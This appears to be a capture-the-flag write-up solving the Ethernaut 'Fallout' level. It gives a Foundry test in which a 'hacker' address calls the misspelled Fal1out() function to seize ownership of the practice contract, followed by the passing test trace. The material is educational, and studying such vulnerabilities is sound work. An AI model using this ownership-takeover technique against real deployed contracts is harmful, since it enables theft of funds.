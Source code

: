 
### formal solidity solution

<br>

* i had to change the original contract a little to compile with foundry (e.g., adding a couple of `payable` casting and removing `SafeMath` as it's not needed for `>= 0.8.0`).

<br>

* `test/02/Fallout.t.sol` is super simple:

<br>

```solidity
import "forge-std/Test.sol";
import "src/02/Fallout.sol";

contract FalloutTest is Test {

    Fallout public level;

    address instance = vm.addr(0x1); 
    address hacker = vm.addr(0x2); 

    function setUp() public {

        vm.prank(instance);
        level = new Fallout();
    
    }

    function testFallbackHack() public {

        vm.startPrank(hacker);
        level.Fal1out();
        vm.stopPrank();
        
      }
}
```

<br>

* run:

<br>

```shell
> forge test --match-contract FalloutTest -vvvv    

Running 1 test for test/02/Fallout.t.sol:FalloutTest
[PASS] testFallbackHack() (gas: 35036)
Traces:
  [35036] FalloutTest::testFallbackHack() 
    ├─ [0] VM::startPrank(0x2B5AD5c4795c026514f8317c7a215E218DcCD6cF) 
    │   └─ ← ()
    ├─ [24507] Fallout::Fal1out() 
    │   └─ ← ()
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 514.50µs
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
